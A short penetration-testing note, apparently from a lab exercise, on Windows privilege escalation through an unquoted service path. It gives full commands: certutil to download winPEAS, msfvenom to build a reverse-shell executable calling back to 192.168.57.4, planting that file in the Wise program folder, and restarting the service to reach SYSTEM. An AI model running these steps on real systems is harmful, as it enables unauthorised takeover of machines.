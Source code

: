 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: 2023-12-06
category: Cyber Security
subcategory: Penetration Testing - Report
---
```

#winpeas

# Download
`certutil.exe -urlcache -f https://github.com/carlospolop/PEASS-ng/releases/download/20231203-9cdcb38f/winPEASx64.exe winpeas.exe`
and run it.

tried the following in powershell and didn't work:
```
Invoke-WebRequest $myDownloadUrl -OutFile c:\file.ext
```

# Result
finding of interest:
`WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected`


# msfvenom

#msfvenom
## Craft payload 
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.57.4 LPORT=80 -f exe -o ~/transfer/Wise.exe`
## Transfer file to Victim's Windows machine
## Move file to the right place
`mv Wise.exe 'C:\Program Files (x86)\Wise\'`

## Restart WiseBootAssistant service
`sc query WiseBootAssistant`
`sc stop WiseBootAssistant`
`sc start WiseBootAssistant`

or 

`net stop WiseBootAssistant`
`net start WiseBootAssistant`

or 

`powershell.exe`
`PS C:\>Get-Service Wise*`
`PS C:\>Restart-Service Wise*`

# rooted machine
```
C:\Windows\system32>whoami
whoami
nt authority\system
```
